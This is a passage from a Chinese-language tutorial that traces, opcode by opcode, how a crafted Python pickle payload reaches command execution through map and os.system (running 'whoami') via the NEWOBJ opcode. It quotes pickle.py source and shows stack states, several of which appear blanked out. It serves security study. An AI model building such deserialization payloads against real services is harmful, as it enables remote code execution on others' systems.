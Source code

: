 ```python
memo:[,('whoami',),(,('whoami',),),,]

```

**第21步`(`**

向栈(self.stack)中插入一个merk标记，并将当前栈暂时置空，遇到pop\_mark函数，就会恢复

记录栈：

```python
stack:[]

```

自身栈：

```python
stack:[]

```

**第22步`g3`**

将memo中的下标为3个数据，放入栈中

自身栈：

```python
stack:[]

```

**第23步`t`**

寻找栈中的上一个MARK，**并组合之间的数据为元组**，恢复MARK标志之前的栈，并且加到MARK之前的栈

```python
    def load_tuple(self):
        items = self.pop_mark() #恢复当前自身栈为MARK标志之前的栈
        self.append(tuple(items)) #用当前栈中的内容生成tuple，并且加到MARK之前的栈
    dispatch[TUPLE[0]] = load_tuple

```

自身栈：

```python
stack:[,(,)]

```

**第24步 `\x81` 实现命令执行函数调用**

**传入的arg必须是一个tuple**

```python
    def load_newobj(self):
        args = self.stack.pop() #(,)
        cls = self.stack.pop() #
        obj = cls.__new__(cls, *args) #bytes.__new__(bytes,(,)) 将(,)作为参数，生成了bytes对象 
        #相当于 bytes.__new__(bytes,map.__new__(map,os.system,('whoami',)))
        ##实现命令执行
        self.append(obj)
    dispatch[NEWOBJ[0]] = load_newobj

```
